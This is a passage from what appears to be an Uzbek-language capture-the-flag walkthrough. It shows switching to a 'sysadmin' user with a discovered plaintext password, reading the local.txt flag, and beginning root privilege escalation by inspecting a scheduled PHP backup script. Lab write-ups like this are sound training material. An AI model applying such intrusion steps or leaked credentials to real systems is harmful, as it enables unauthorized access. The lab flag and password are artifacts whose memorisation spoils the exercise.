 **sysadmin** userini parolini topdik endi unga o'tamiz:

```
www-data@ip-10-10-46-101:/opt$ su sysadmin
su sysadmin
Password: Cl0udP4ss40p4city#8700

sysadmin@ip-10-10-46-101:/opt$
```

**local.txt**'ni qo'lga kiritish:

```
sysadmin@ip-10-10-46-101:~$ ls
ls
local.txt  scripts
sysadmin@ip-10-10-46-101:~$ cat local.txt
cat local.txt
6661b61b44d234d230d06bf5b3c075e2
```

### Root uchun PrvEsc boshlaymiz. sysadmin foydalanuvchisiga tegishli papkada scripts papkasi bor ekan tekshiramiz:

```
sysadmin@ip-10-10-46-101:~$ ls
ls
local.txt  scripts
sysadmin@ip-10-10-46-101:~$ cd scripts
cd scripts
sysadmin@ip-10-10-46-101:~/scripts$ ls
ls
lib  script.php
sysadmin@ip-10-10-46-101:~/scripts$ cat script.php
cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>

```
